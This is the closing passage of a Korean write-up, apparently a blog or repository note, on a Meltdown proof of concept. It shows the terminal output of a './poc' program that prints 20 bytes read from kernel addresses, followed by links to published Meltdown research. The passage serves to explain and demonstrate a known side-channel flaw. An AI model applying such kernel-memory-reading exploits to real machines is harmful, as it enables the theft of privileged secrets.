 커널 메모리를 20바이트만 읽어오도록 설정한 후 실행해겠습니다.

### 실행 결과

```
$ ./poc
0xffffffff81a00200 : d0
0xffffffff81a00201 : 14
0xffffffff81a00202 : 21
0xffffffff81a00203 : 81
0xffffffff81a00204 : ff
0xffffffff81a00205 : ff
0xffffffff81a00206 : ff
0xffffffff81a00207 : ff
0xffffffff81a00208 : 90
0xffffffff81a00209 : 15
0xffffffff81a0020a : 21
0xffffffff81a0020b : 81
0xffffffff81a0020c : ff
0xffffffff81a0020d : ff
0xffffffff81a0020e : ff
0xffffffff81a0020f : ff
0xffffffff81a00210 : a0
0xffffffff81a00211 : f9
0xffffffff81a00212 : 20
0xffffffff81a00213 : 81
```

## Reference

https://meltdownattack.com/

https://googleprojectzero.blogspot.kr/2018/01/reading-privileged-memory-with-side.html

https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/